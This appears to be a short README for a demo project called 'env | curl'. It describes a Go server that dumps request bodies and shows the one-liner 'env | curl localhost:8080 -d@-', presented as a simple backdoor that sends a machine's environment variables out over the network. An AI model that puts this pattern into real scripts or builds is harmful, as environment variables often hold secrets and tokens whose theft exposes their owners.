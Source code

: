 # env | curl

Simple example of how to insert a backdoor into anything that can run a script and has external network access.

## How to Run

Run the server to listed for any request and dump the request body to stdout:

`go run main.go`

Pipe the env to curl and make a request containing the env in its body:

`env | curl localhost:8080 -d@-`
